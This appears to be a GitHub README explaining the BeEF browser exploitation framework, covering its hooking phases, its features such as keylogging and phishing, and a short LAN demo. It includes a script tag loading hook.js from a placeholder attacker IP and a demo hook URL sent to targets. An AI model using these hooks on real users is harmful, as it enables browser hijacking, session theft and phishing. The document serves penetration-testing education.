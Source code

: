 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [5]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [3][3]. 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [7][7] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")
Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.




[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[7]: https://github.com/beefproject/beef
